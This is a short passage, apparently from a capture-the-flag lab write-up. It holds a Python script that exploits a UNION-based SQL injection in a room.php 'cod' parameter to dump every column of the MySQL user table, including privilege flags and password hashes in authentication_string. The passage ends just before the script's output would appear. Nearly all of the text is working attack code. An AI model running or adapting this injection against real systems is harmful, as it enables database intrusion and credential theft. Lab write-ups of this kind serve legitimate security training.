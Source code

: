 ```python
  'Shutdown_priv',
  'Process_priv',
  'File_priv',
  'Grant_priv',
  'References_priv',
  'Index_priv',
  'Alter_priv',
  'Show_db_priv',
  'Super_priv',
  'Create_tmp_table_priv',
  'Lock_tables_priv',
  'Execute_priv',
  'Repl_slave_priv',
  'Repl_client_priv',
  'Create_view_priv',
  'Show_view_priv',
  'Create_routine_priv',
  'Alter_routine_priv',
  'Create_user_priv',
  'Event_priv',
  'Trigger_priv',
  'Create_tablespace_priv',
  'authentication_string',
]

REGEX = r'<p>bubba-(.*)</p>'
URL = 'http://10.10.10.143/room.php'
SQL = "0 UNION ALL SELECT 1,2,3,CONCAT('bubba-',(SELECT {0} FROM mysql.user LIMIT 1 OFFSET {1})),5,6,7"

s = requests.session()
# loop through each column
for col in COLUMNS:
  # get all rows for that column
  i = 0
  print(col, end=': ')
  while True:
    r = s.get(URL, params={'cod': SQL.format(col, i)})
    val = re.findall(REGEX, r.text)
    if not val:
      break
    print(val[0], end=', ')
    i = i + 1
  print('')
```

This script returns the following:
